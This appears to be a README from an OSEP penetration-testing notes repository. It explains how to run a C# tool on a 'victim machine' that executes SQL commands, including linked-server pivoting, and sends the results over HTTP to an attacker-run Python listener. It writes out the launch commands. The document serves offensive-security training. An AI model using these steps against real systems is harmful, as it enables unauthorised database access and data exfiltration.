 I created this code as an alternative to the methods presented in the OSEP course. This code, when compiled, will login and run commands on an MSSQL DB and then send the results back over http/https(untested) to a http-server.py in the Linux section of this repository. 

### Usage

1. start http-server.py
`python3 ../../../OSEP-Code-And-Notes/Linux/Python/http-server.py --port 8000 --log requests.log`

2. Compile and Upload the C# code in this directory to the victim machine
3. Create a file with SQL commands one would like to have proccessed. The text file requires the following format:
	1. username (if using Integrated Security just use the string `username`)
	2. password (Integrated Security default this to `password`)
	3. MSSQL host
	4. commands...1 per line
Example command file:
```sql
username
password
mssql01.example.com
master
EXEC sp_linkedservers;
select myuser from openquery("mssql02", 'select SYSTEM_USER as myuser');
```
4. Run the code on the victim's machine:
`Program.exe -w http://<address of webserver with command file> -g <command file>`
5. `tial` the logfile to find the output in Base64 and if the output is less than 4kb (arbitrary number set by me), there will be a plain text representation.